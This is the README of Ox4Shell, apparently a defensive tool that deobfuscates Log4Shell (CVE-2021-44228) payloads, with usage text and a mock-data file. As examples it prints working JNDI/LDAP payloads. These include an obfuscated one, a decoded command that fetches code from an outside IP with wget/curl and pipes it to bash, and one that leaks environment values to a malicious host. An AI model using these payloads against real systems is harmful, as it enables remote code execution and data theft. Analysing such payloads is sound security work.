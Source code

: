![Logo-Light](https://gist.githubusercontent.com/oxeye-daniel/269eb41b379cf951d95ee4a23555db74/raw/e9b937b101cfc3b2a7dab83b640189adde1da287/bright.png#gh-dark-mode-only)![Logo-Dark](https://gist.githubusercontent.com/oxeye-daniel/269eb41b379cf951d95ee4a23555db74/raw/e9b937b101cfc3b2a7dab83b640189adde1da287/dark.png#gh-light-mode-only)

<hr/>
<p align="center">
    <img alt="maintained-oxeye" src="https://img.shields.io/badge/maintained%20by-oxeye.io-blueviolet"/>
    <img alt="python-3.8" src="https://img.shields.io/badge/python-3.8-green"/>
    <img alt="version-1.1" src="https://img.shields.io/badge/version-1.1-blue"/>
    <img alt="license-mit" src="https://img.shields.io/badge/license-MIT-lightgrey"/>
</p>

# Ox4Shell
Deobfuscate Log4Shell payloads with ease.

## Description
Since the release of the Log4Shell vulnerability (CVE-2021-44228), many tools were created to obfuscate Log4Shell payloads,
making the lives of security engineers a nightmare.

This tool intends to unravel the true contents of obfuscated Log4Shell payloads. 

For example, consider the following obfuscated payload:
```text
${zrch-Q(NGyN-yLkV:-}${j${sm:Eq9QDZ8-xEv54:-ndi}${GLX-MZK13n78y:GW2pQ:-:l}${ckX:2@BH[)]Tmw:a(:-da}${W(d:KSR)ky3:bv78UX2R-5MV:-p:/}/1.${)U:W9y=N:-}${i9yX1[:Z[Ve2=IkT=Z-96:-1.1}${[W*W:w@q.tjyo@-vL7thi26dIeB-HxjP:-.1}:38${Mh:n341x.Xl2L-8rHEeTW*=-lTNkvo:-90/}${sx3-9GTRv:-Cal}c$c${HR-ewA.mQ:g6@jJ:-z}3z${uY)u:7S2)P4ihH:M_S8fanL@AeX-PrW:-]}${S5D4[:qXhUBruo-QMr$1Bd-.=BmV:-}${_wjS:BIY0s:-Y_}p${SBKv-d9$5:-}Wx${Im:ajtV:-}AoL${=6wx-_HRvJK:-P}W${cR.1-lt3$R6R]x7-LomGH90)gAZ:NmYJx:-}h}
```

After running Ox4Shell, it would transform into an intuitive and readable form:
```text
${jndi:ldap://1.1.1.1:3890/Calc$cz3z]Y_pWxAoLPWh}
```

This tool also identify and decode base64 commands
For example, consider the following obfuscated payload:
```text
${jndi:ldap://<REDACTED_IP>:1389/Basic/Command/Base64/KHdnZXQgLU8gLSBodHRwOi8vMTg1LjI1MC4xNDguMTU3OjgwMDUvYWNjfHxjdXJsIC1vIC0gaHR0cDovLzE4NS4yNTAuMTQ4LjE1Nzo4MDA1L2FjYyl8L2Jpbi9iYXNoIA==}
```

After running Ox4Shell, the tool reveals the attacker’s intentions:
```text
${jndi:ldap://<REDACTED_IP>:1389/Basic/(wget -O - http://185.250.148.157:8005/acc||curl -o - http://185.250.148.157:8005/acc)|/bin/bash
```

⚠️ We recommend running `Ox4Shell` with a provided file (`-f`) rather than an inline payload (`-p`), because certain 
shell environments will escape important characters, therefore will yield inaccurate results. 

## Usage
To run the tool simply:
```
~/Ox4Shell » python ox4shell.py --help
usage: ox4shell [-h] [-d] [-m MOCK] [--max-depth MAX_DEPTH] (-p PAYLOAD | -f FILE)

   ____       _  _   _____ _          _ _ 
  / __ \     | || | / ____| |        | | |
 | |  | |_  _| || || (___ | |__   ___| | |
 | |  | \ \/ /__   _\___ \| '_ \ / _ \ | |
 | |__| |>  <   | | ____) | | | |  __/ | |
  \____//_/\_\  |_||_____/|_| |_|\___|_|_|

Ox4Shell - Deobfuscate Log4Shell payloads with ease.
    Created by https://oxeye.io

General:
  -h, --help            Show this help message and exit
  -d, --debug           Enable debug mode (default: False)
  -m MOCK, --mock MOCK  The location of the mock data JSON file that replaces certain values in the payload (default: mock.json)
  --max-depth MAX_DEPTH
                        The maximum number of iteration to perform on a given payload (default: 150)
  --decode-base64       Payloads containing base64 will be decoded (default: False)

Targets:
  Choose which target payloads to run Ox4Shell on

  -p PAYLOAD, --payload PAYLOAD
                        A single payload to deobfuscate, make sure to escape '$' signs (default: None)
  -f FILE, --file FILE  A file containing payloads delimited by newline (default: None)
```


## Mock Data
The Log4j library has a few unique lookup functions, which allow users to look up environment variables, runtime 
information on the Java process, and so forth. This capability grants threat actors the ability to probe for specific 
information that can uniquely identify the compromised machine they targeted.

Ox4Shell uses the `mock.json` file to insert common values into certain lookup function, for example,
if the payload contains the value `${env:HOME}`, we can replace it with a custom mock value.

The default set of mock data provided is:
```json
{
    "hostname": "ip-127.0.0.1",
    "env": {
        "aws_profile": "staging",
        "user": "ubuntu",
        "pwd": "/opt/",
        "path": "/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/lib/jvm/java-1.8-openjdk/jre/bin:/usr/lib/jvm/java-1.8-openjdk/bin"
    },
    "sys": {
        "java.version": "16.0.2",
        "user.name": "ubuntu"
    },
    "java": {
        "version": "Java version 16.0.2",
        "runtime": "OpenJDK Runtime Environment (build 1.8.0_181-b13) from Oracle Corporation",
        "vm": "OpenJDK 64-Bit Server VM (build 25.181-b13, mixed mode)",
        "os": "Linux 5.10.47-linuxkit unknown, architecture: amd64-64",
        "locale": "default locale: en_US, platform encoding: UTF-8",
        "hw": "processors: 1, architecture: amd64-64"
    }
}

```

As an example, we can deobfuscate the following payload using the Ox4Shell's mocking capability:
```bash
~/Ox4Shell >> python ox4shell.py -p "\${jndi:ldap://\${sys:java.version}.\${env:AWS_PROFILE}.malicious.server/a}"  
${jndi:ldap://16.0.2.staging.malicious.server/a}
```

## Authors
- [Daniel Abeles](https://twitter.com/Daniel_Abeles)
- [Ron Vider](https://twitter.com/ron_vider)


## License
The source code for the project is licensed under the MIT license, which you can find in the LICENSE file.
